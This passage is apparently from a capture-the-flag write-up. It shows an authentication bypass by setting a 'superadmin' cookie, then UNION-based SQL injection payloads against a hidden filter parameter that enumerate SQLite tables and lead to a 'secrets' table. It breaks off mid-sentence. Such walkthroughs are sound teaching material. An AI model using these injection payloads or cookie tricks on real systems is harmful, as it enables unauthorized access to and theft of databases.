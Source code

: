 ```jsx
        req.addEventListener("load", reqListener);
        req.open("POST", 'http://web-4/users/login');
        req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        req.send(`username=${document.getElementById('username').value}`);
    }
</script>
```

At this stage I thought that there would be some sort of fuzzing/bruteforcing however my internet was super slow so I let it be. Before I could do some fuzzing a hint was released saying "Look at me, look at me, I am the superadmin now.". 

Interesting we may have a valid username, setting the cookie to superadmin logged us in and showed some new shiny buttons.

In the page source for the `/records/view` endpoint there is a field that is hidden which allows us to filter the records using the `filter` parameter through a get request on the same page.

Inserting a `'` broke the query. 

At first I tried to do a UNION injection query to figure out how many columns are being retrieved. 

I could get the data to reflect whatever I wanted, perfect to capture some output from subqueries.

```sql
something ' union select 1,2,3,4,5,6,7,8 FROM sqlite_master; -- -
```

![https://bit.ly/3nr5MtS](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/26ab88fb-d2c4-429c-9e81-685a975e72b8/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20201213%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20201213T091120Z&X-Amz-Expires=86400&X-Amz-Signature=12208badd7db6525b2ee5596c607397f3f2d02930116c4f8e13fe03d00acbe37&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

```sql
something ' union select 1,2,3,(SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),5,6,7,8 FROM sqlite_master; -- -
```

![https://bit.ly/3m8ztP6](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/a2be8d40-d0b2-43f7-bcc0-f26785b76a5f/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20201213%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20201213T091132Z&X-Amz-Expires=86400&X-Amz-Signature=f6927997aa4efdbd38a49104c8cd3ab236a857f8186b8ffc77a55f6293791fcc&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

```sql
something ' union select 1,2,3,(SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name NOT like 'users%'),5,6,7,8 FROM sqlite_master; -- -
```

![https://bit.ly/2IMqKVe](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/ba2907f0-ebf8-41be-abca-205dde492565/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20201213%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20201213T091141Z&X-Amz-Expires=86400&X-Amz-Signature=ec8d274122740ddaa3bf687ec3406ad87de6d266c7032f3c14da17a8a37e116b&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

```sql
something ' union select 1,2,3,(SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name NOT like 'users%' and tbl_name not like 'records%'),5,6,7,8 FROM sqlite_master; -- -
```

![https://bit.ly/345lofi](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/002143d3-0a87-449f-9c52-162a39388c4c/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20201213%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20201213T091158Z&X-Amz-Expires=86400&X-Amz-Signature=ea6f12e4982fbc037c1c60db8881c06e310cb706b728549b649bf098bfbd1ab2&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

After attempting to enumerate all the tables we get the users, records and secrets table, out of which the `secrets` table stands out the most to me.

Attempting to dump everything in the table we get the following error:
